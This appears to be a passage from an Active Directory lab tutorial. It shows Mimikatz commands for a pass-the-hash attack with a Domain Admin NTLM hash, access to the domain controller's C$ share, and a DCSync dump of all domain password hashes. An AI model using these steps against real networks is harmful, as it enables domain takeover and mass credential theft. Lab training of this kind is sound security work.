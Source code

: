    ```bash
   sekurlsa::pth /user:domad /domain:adlab.local /ntlm:cff48581d56085119bddffacfae51aeb /run:cmd.exe
   ```

   **Explanation**:

   - `sekurlsa::pth`: Initiates the pass-the-hash attack.
   - `/user:domad`: Username of the Domain Admin account.
   - `/domain:adlab.local`: The domain name.
   - `/ntlm:cff48581d56085119bddffacfae51aeb`: The NTLM hash of the **domad** account.
   - `/run:cmd.exe`: This opens a new command prompt under the context of the **domad** account.

   A new command prompt should open as **domad**. Now, verify your access to the Domain Controller by trying to access its administrative share:

2. **List the contents of the Domain Controller’s C$ share**:

   ```bash
   dir \\192.168.56.10\c$
   ```

   **Explanation**:

   - `192.168.56.10` is the IP address of the Domain Controller.
   - `C$` is the administrative share.

   If you see the directory contents, the **Pass-the-Hash** was successful, and you have administrative access to the Domain Controller.

### Dump All Hashes from Active Directory

Now that you have administrative access to the Domain Controller, run **Mimikatz** to dump all the password hashes stored in Active Directory.

1. **Run Mimikatz**:

   In **cmd**, use:

   ```bash
   %USERPROFILE%\mimikatz\x64\mimikatz.exe
   ```

   In **PowerShell**, use

   ```bash
   & $HOME\mimikatz\x64\mimikatz.exe
   ```

2. **Enable Privilege Debugging**:
   Once Mimikatz is running, enable the necessary privileges to access sensitive memory locations:

   ```bash
   privilege::debug
   ```

3. **Dump All AD Hashes Using DCSync**:
   Execute the **DCSync** command to dump the password hashes for all users in the domain:

   ```bash
   lsadump::dcsync /domain:adlab.local /all /csv
   ```
